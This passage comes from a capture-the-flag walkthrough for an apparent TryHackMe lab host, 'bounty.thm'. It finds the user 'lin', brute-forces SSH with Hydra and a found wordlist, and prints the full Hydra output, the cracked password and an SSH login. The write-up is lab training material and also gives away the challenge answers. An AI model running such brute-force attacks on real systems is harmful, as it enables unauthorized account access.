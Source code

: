 Reading task.txt file we can say that the owner of task list is Lin.

{% hint style="info" %}
lin
{% endhint %}

#### 2.2 - What service can you bruteforce with the text file found?

The locks.txt file maybe cointains a password list, we know that "lin" is a user and lounch a brute force attack on port 22 (SSH).\


{% hint style="info" %}
SSH
{% endhint %}

#### 2.3 - What is the users flag?&#x20;

```bash
hydra -l lin -P locks.txt bounty.thm ssh
```

```bash
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-24 09:35:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://bounty.thm:22/
[22][ssh] host: bounty.thm   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
```

{% hint style="info" %}
```
RedDr4gonSynd1cat3
```
{% endhint %}

We can use the credentials obtained for ssh access:

```
lin::RedDr4gonSynd1cat3
```

```bash
ssh lin@bounty.thm
The authenticity of host 'bounty.thm (10.10.104.152)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bounty.thm' (ED25519) to the list of known hosts.
lin@bounty.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)
```
